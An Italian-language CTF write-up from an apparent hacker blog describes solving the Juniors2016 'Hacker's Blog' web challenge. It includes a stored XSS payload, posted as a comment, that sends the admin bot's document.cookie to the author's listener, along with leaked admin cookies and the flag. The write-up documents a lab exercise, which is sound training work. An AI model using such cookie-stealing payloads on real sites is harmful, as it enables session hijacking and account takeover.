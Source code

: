 ```yaml
---
layout: post
title:  "Juniors2016 - Hacker's Blog"
date:   2016-12-14 03:15
categories: CTF
tags: [web,Juniors2016]
author: jbz
---
```


*PREMESSA: per accedere a questa challenge bisognava utilizzare una VPN fornita dagli organizzatori.*

Veniva dato un sito web, `http://10.0.7.216:54337`: un blog.

Cliccando su uno dei post ho notato che l'URL è il canoninco `post.php_id=<id>`. Ho provato a forzare un errore SQL ma non era vulnerabile.

Ho notato che i vari post permettevano commenti. Ho provato ad inserire un commento e mi veniva restituito un errore in russo che tradotto diceva:
> Un amministratore deve confermare il commento.

Ho pensato quindi che il sito potrebbe essere vulnerabile a Cross Site Scripting.

Ho guardato il sorgente della pagina e ho notato questo commento:

`<!-- Secret admin panel: aHR0cDovLzEwLjAuNy4yMTY6NTQzMzcvYWRtaW42NDY0MS5waHA= -->`

Che decodificato restituisce:

`http://10.0.7.216:54337/admin64641.php`

Sono andato a quell'indirizzo e mi veniva restituito un errore (sempre in russo) che tradotto era:
>Username e password sbagliati.

Ho postato quindi un commento con questo payload (10.3.2.2. era il mio indirizzo IP):

```html
<script>document.write('<img src=http://10.3.2.2:8000/?' + document.cookie +'>')</script>
```

Ho scoperto che il cookie del bot era `login=admin`. Ho impostato il cookie, sono tornato nella pagina admin che ho trovato in precedenza, ma purtroppo ottenevo lo stesso errore.

Ho provato quindi un altro payload, per recuperare `document.location` ed ho ottenuto l'indirizzo `http://10.0.7.216:54337/bot_check.php?check=4e195228ec31dd6f3fef492`. Ho fatto una richiesta a quell'indirizzo e ho notato che il webserver mi ha settato due cookie:

```
Set-Cookie: login=admin; expires=Mon, 05-Dec-2016 19:35:19 GMT; path=/
Set-Cookie: password=e0377f6e85d987d81e96c0381c789360fe90547bdf9be3b5082a492b9c4184f7; expires=Mon, 05-Dec-2016 19:35:19 GMT; path=/
```

Con questi cookie, sono tornato alla pagina admin che ho trovato in precedenza ed ho ottenuto la flag:

> Флаг:
>
> 1true_haCkeers1337_XSS
